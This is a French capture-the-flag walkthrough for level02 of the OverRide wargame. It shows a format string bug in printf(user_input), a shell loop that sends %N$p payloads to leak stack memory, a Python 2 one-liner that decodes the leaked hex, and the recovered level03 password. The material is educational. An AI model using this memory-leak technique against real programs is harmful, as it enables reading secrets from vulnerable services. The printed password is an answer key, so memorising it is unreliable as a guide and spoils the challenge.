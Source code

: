 # Walkthrough Level02 – OverRide

## 🔍 Objectif

Trouver le mot de passe de l'utilisateur `level03` en exploitant une vulnérabilité de format string dans le binaire `level02`.

---

## 🧠 Analyse du binaire

Le programme effectue les actions suivantes :

- Lit le mot de passe dans le fichier `/home/users/level03/.pass` via `fread`.
- Demande un **username** et un **password** à l'utilisateur.
- Compare le mot de passe saisi à celui du fichier avec `strncmp(local_a8, local_118, 0x29)`.
- Si le mot de passe est correct, lance `system("/bin/sh")`.
- Sinon, affiche une ligne contenant la chaîne username passée **via un `printf()` non sécurisé** :

```c
printf(local_78); // DANGER : format string vulnérable
```

---

## 🧪 Étapes d'exploitation

### 1. Chercher la position du mot de passe dans la stack

```bash
for i in $(seq 1 50); do
    ./level02 <<< "$(python -c 'print("%%%d$p" % '"$i"')')" | grep 'does';
done
```

Résultat intéressant :

```
22 - 0x756e505234376848
23 - 0x45414a3561733951
24 - 0x377a7143574e6758
25 - 0x354a35686e475873
26 - 0x48336750664b394d
```

### 2. Reconstruction du mot de passe en Python 2

```bash
python -c 'print(
    "".join([
        "756e505234376848".decode("hex")[::-1],
        "45414a3561733951".decode("hex")[::-1],
        "377a7143574e6758".decode("hex")[::-1],
        "354a35686e475873".decode("hex")[::-1],
        "48336750664b394d".decode("hex")[::-1],
    ])
)'
```

Mot de passe obtenu :

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
---


## 🧠 Résumé

- Vulnérabilité de format string (`printf(user_input)`).
- Lecture de la mémoire avec `%x$p`.
- Extraction des valeurs hexadécimales du mot de passe.
- Décodage du mot de passe avec Python.